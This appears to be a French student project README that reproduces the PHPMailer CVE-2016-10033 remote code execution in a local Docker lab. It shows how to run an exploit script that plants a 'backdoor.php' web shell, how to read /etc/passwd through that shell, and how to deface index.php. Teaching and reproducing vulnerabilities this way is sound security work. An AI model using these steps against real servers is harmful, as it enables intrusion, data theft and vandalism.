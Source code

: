 # ensimag-ssi-2019-2020

## Getting Started
```
$ git clone "https://github.com/elhouti/ensimag-ssi-2019-20.git"
```
```
$ cd ensimag-ssi-2019-20
```

## Reproduire la vulnérabilité 

Étape  1: Tout d'abord on va utiliser une image docker qui permet de lancer une simple application web d'un formulaire (index.php)
```
$ docker run --rm -it -p 8080:80 vulnerables/cve-2016-10033
```

Étape 2: Lancement du script "exploit.sh", ce dernier injecte un malicious code dans le serveur distant (dans notre cas ça sera "localhost:8080", puisque l'application est exécuter sur une image docker locale) sous la forme d'un fichier php que nous avons l'appelé "backdoor.php", il va nous donner la main d'éxécuter les commandes sur un shell distant.
```
$ bash exploit.sh localhost:8080
```
output:
```
[+] exemple d éxploitation CVE-2016-10033
[+] Lancement de l éxploitation localhost:8080
[+] Target exploited, acessing shell at http://localhost:8080/backdoor.php
[+] Vérification si le fichier backdoor a été creé sur le host ciblé
[+] Backdoor.php trouvé dans le host ciblé
[+] Vous avez la main pour saisir Les commandes à exécuter sur le serveur distant ...
[+] (tappez exit pour sortir du shell)
www-data
RemoteShell> ls
vulnerable
RemoteShell> ls vulnerable
travis.phpunit.xml.dist
RemoteShell> pwd
/www
RemoteShell> cat /etc/passwd
smmsp:x:105:108:Mail
RemoteShell> exit
[+] Sortie
```

C'est intéressant, mais pour tester quelque chose de plus concrèt, lancant le script "deface.sh" qui exécute une commande sur le shell distant qui permet d'écraser le contenu du ficher "index.php" à une page noire contant le mot "defaced".
```
$ bash deface.sh localhost:8080
```
output 

![](ssi.png)


